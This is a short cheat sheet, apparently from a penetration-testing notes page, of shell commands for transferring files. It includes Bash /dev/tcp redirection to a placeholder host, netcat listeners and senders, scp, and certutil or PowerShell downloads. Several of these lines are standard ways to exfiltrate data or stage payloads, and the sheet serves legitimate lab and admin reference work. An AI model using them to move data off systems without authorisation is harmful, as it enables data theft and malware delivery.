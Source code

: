 ## Bash with Netcat listener
Upload:
```bash
bash -c 'cat <FILE> > /dev/tcp/<IP>/<PORT>'
nc -lnvp <PORT> > <FILE>
```

Download:
```bash
bash -c 'cat < /dev/tcp/<IP>/<PORT> > <FILE>'
nc -lnvp <PORT> < <FILE>
```

## Netcat
```bash
nc -q 0 <IP> <PORT> < <FILE> (sender)
nc -lnvp <PORT> > <FILE> (receiver)
```

## SCP (SSH)
Upload:
```bash
scp <FILE> <USER>@<IP>:<FILE> -P <PORT>
```

Download:
```bash
scp <USER>@<IP>:<FILE> -P <PORT>
```

## HTTP download
```bash
Invoke-WebRequest "http://<IP>/<FILE>" -OutFile "<FILE>"
certutil -urlcache -f http://<IP>/<FILE> <FILE>
```
